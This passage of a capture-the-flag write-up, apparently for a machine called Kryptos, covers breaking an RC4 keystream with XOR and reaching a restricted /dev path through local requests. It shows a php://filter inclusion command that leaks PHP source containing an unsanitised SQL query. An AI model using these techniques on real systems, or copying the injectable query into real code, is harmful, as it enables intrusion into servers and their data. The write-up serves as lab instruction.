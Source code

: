 4. Bitwise XOR the cleartext and the encrypted content to obtain the keystream [xor.pw](xor.pw);
5. Bitwise XOR the secret encrypted content and the keystream to obtain the secret content in cleartext.

The process has been scripted into [break_rc4.py](./resources/kryptos/break_rc4.py).

As suggested in the page itself, it is possible to ask for resources via the HTTP protocol. So, we can try to see some of the 403 files and directories we had before. One of the paths to be explored is for sure ```/dev/```. By requiring ```http://127.0.0.1/dev/```, we obtain the RC4 encrypted stream, decrypt it and we get:

	<html> <head> </head> <body> <div class="menu"> <a href="index.php">Main Page</a> <a href="index.php?view=about">About</a> <a href="index.php?view=todo">ToDo</a> </div> </body> </html>

Looks interesting. Let's dig in more requiring ```http://127.0.0.1/dev/index.php?view=todo```

	<html> <head> </head> <body> <div class="menu"> <a href="index.php">Main Page</a> <a href="index.php?view=about">About</a> <a href="index.php?view=todo">ToDo</a> </div> <h3>ToDo List:</h3> 1) Remove sqlite_test_page.php <br>2) Remove world writable folder which was used for sqlite testing <br>3) Do the needful <h3> Done: </h3> 1) Restrict access to /dev <br>2) Disable dangerous PHP functions </body> </html>

Requiring ```http://127.0.0.1/dev/sqlite_test_page.php``` we get an empty page. Also ```http://127.0.0.1/dev/index.php?view=about``` doesn't provide any valuable content.

The presence of ```view``` parameter in the url may suggest a possible PHP Filter Injection:

	python break_rc4.py eddqibhqbncraed6im1218elh9 /dev/index.php?view=php://filter/convert.base64-encode/resource=sqlite_test_page

The first parameter after the filename is the ```PHPSESSID```.
We do get:

	<html>
	<head></head>
	<body>
	<?php
	$no_results = $_GET['no_results'];
	$bookid = $_GET['bookid'];
	$query = "SELECT * FROM books WHERE id=".$bookid;
	if (isset($bookid)) {
	   class MyDB extends SQLite3
	   {
	      function __construct()
	      {
	     // This folder is world writable - to be able to create/modify databases from PHP code
	         $this->open('d9e28afcf0b274a5e0542abb67db0784/books.db');
	      }
	   }
	   $db = new MyDB();
	   if(!$db){
	      echo $db->lastErrorMsg();
	   } else {
	      echo "Opened database successfully\n";
	   }
	   echo "Query : ".$query."\n";
